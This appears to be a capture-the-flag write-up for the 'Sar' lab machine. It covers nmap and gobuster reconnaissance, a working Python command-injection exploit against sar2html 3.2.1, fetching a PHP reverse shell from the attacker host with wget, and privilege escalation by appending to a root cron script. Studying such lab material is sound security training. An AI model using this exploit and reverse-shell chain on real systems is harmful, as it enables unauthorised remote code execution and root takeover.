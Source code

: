 # Sar

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`
![42ab379f6a809ffe8484917aae278ebe.png](./_resources/7f72f5ad47394c36aab2a2a04e0849d3.png)


## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.131 -oN full_service_enum-sC.txt`
![99077d6337566a9dacfab871978e6f68.png](./_resources/ceac9e71650746b3b84bffa8119c058c.png)

`nmap -sV -sU -F  -oN udp-sC-sV.txt`

![b5040109f53646d85e2ba4b39ab82df1.png](./_resources/e22b29ee7b444b57abe4e663f9ac0a1a.png)

## 1.3 Web
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.196.131 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt -f -x php,bkp,bak,txt,html,aspx -o info.txt`

### 1.3.2 Robots.txt and Sar2html
![fefda24968698a6f7a9db52a94e6cd60.png](./_resources/d4db09a2e93e4504aecaf68778e4bc31.png)
![10734a64042b69ed98f6b07cf2684102.png](./_resources/936510b6e8f74c6b8af7146f059f0abe.png)

For this app there are public exploits, but let's code it.

# 2 Exploitation (Testing for Command Injection - WSTG-INPV-12)
## 2.2 Coded exploit to gain RCE
Firts we should know what point of the source code is vulnerable:
![2824569ae5baa951aacf73ee2dc796eb.png](./_resources/2b1aa54a0f5c49d283aba80292cc012c.png)
![ea782e47d8895a5985e6d0f4356bcef0.png](./_resources/b1c080a4aea34f0a9b6743cf8879b46b.png)

The variable `plot` receive as GET method and concatenated into php vulnerable exec function. The argument for this command must be sanitized

Code:
```
# Script para php command injection - sar2html Ver 3.2.1 - byth22
#!/usr/bin/env python2.7
# -*- coding: utf-8 -*-
import requests
import re


def command_(command):
    #target = "https://192.168.196.131"
    target = ""
    
    cookies = {
        'PHPSESSID': '',
    }

    headers = {
        'Host': '192.168.196.131',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Cache-Control': 'max-age=0',
    }

    params = (
    ('plot', ';'+command),
    )

    try:
        response = requests.get(target+'/sar2HTML/index.php', headers=headers, params=params, cookies=cookies, verify=False)
    except:
        print ("Connection error!")
    
    try:
        receive = re.findall("<option value=(.*?)>", response.text)
    except:
        print ("Error!")
    
    for i in receive:
	    if "There is no defined host..." not in i:
		    if "null selected" not in i:
		        if "selected" not in i:
		            print (i)
def main():
    while True:
        command = raw_input("[+] Shell ->:  ")
        command_(command)


main()
```
![80d9ab120a31979e93af5cdcc8e1b5d8.png](./_resources/0953e5d9aa1b425da61ca422c4289beb.png)

## 2.2 PHP Reverse shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Download and edit the php reverse shell for point your ip and port.

`python3 -m http.server 8090` <- on the kali

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target for rev shell download

Now you might execute it:
![c7908850dfc35583155688c7acffc4ec.png](./_resources/f7cca70b48754647a656cc9ba104f4af.png)
![974a4a55bd0d9d8186c7b86c52fd53ef.png](./_resources/12ac04997f3341c09a0ea8870ba5f323.png)


# 3 Post-exploitation (crontab abuse)
LinEnum.sh reveals some good information:
![ea46b5015f3eca4b40616d29dd23968c.png](./_resources/b01401b6ee2546cc83c2fb57fde3d8f4.png)
![5151113f8bd7b5dfaac69486e06e73e0.png](./_resources/a17774987f9349c4b8202d74fc6d4f02.png)

Let's edit write.sh file to gain shell:

`python3 -m http.server 8090` <- on the kali

`wget http://192.168.196.121:8090/php-reverse-shell.php` <- on the target

`echo "php ./php-reverse-shell.php" >> write.sh` <- on the target
![54a351a9644ded50d5cf9af4934e55cb.png](./_resources/d23c9d3441f24410827b583b35e0f9c1.png)

